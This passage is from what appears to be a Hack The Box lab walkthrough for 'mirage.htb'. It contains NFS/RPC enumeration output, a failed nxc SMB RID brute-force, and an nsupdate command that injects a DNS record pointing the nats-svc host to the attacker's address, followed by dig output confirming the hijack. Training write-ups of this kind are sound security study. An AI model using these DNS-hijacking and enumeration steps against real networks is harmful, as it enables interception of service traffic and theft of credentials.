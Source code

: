         100005    3   udp   2049  mountd
        100021    1   tcp   2049  nlockmgr
        100021    2   tcp   2049  nlockmgr
        100021    3   tcp   2049  nlockmgr
        100021    4   tcp   2049  nlockmgr
        100021    1   udp   2049  nlockmgr
        100021    2   udp   2049  nlockmgr
        100021    3   udp   2049  nlockmgr
        100021    4   udp   2049  nlockmgr
        100024    1   tcp   2049  status
        100024    1   udp   2049  status



```python
!nxc smb $target --rid-brute 10000
```

    SMB         10.129.241.222  445    10.129.241.222   [*]  x64 (name:10.129.241.222) (domain:10.129.241.222) (signing:True) (SMBv1:False)
    SMB         10.129.241.222  445    10.129.241.222   [-] Error creating DCERPC connection: SMB SessionError: STATUS_NOT_SUPPORTED(The request is not supported.)


Some thoughts I had between the last thought and the next one:  
Setting up responder, watching for multicast dns traffic, trying to invoke other mDNS type interceptions all fail because we're over the VPN and don't have a box owned that shares an arp table. Many of these tools use MITM type arp-poisoning to intercept traffic or are listening to broadcasts that are limited to the local network. None of these are going to work for us over HTB openvpn if we can't force a service to try to auth through us directly with L3 connectivity.

Eventually I found I could directly `nsupdate` the missing nats-svc record.
 
I can arbitrarily add records to the DNS server as long as they don't already exist. In this case nats-svc.mirage.htb does not exist, so I can add it.  
Then I can set a listener on port 4222 and something connects to it.  
Then immediately after that thing connects, the DNS entry is reset.
Sometimes the DNS entry is reset before I get a connection, I think there's a race condition.

```sh
 nsupdate << EOF
server 10.129.241.222
zone mirage.htb
update add nats-svc.mirage.htb. 3600 IN A 10.10.14.81
send
EOF


$ dig nats-svc.mirage.htb @mirage.htb

; <<>> DiG 9.20.9 <<>> nats-svc.mirage.htb @mirage.htb
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 16900
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;nats-svc.mirage.htb.           IN      A

;; ANSWER SECTION:
nats-svc.mirage.htb.    3600    IN      A       10.10.14.81

;; Query time: 101 msec
;; SERVER: 10.129.241.222#53(mirage.htb) (UDP)
;; WHEN: Sun Jul 20 08:14:58 PDT 2025
;; MSG SIZE  rcvd: 64
```